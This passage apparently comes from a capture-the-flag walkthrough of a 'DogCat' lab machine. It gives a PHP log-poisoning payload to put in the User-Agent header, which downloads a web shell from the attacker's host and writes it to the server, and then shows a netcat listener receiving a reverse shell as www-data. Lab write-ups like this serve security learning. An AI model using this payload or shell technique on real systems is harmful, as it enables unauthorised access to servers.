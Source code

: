 and put this payload after user-agent:

`<?php file_put_contents('yourshell.php', file_get_contents('http://10.8.69.162/yourshell.php'))?>`

![Desktop View](/assets/img/sample/DogCat/10.png)

![Desktop View](/assets/img/sample/DogCat/11.png)

```
root@cyb3rhoL1c:~# nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.8.69.162] from (UNKNOWN) [10.10.38.194] 58370
Linux 07a3b42783b3 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 14:21:52 up  1:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$   

```
Let's check `sudo -l` 
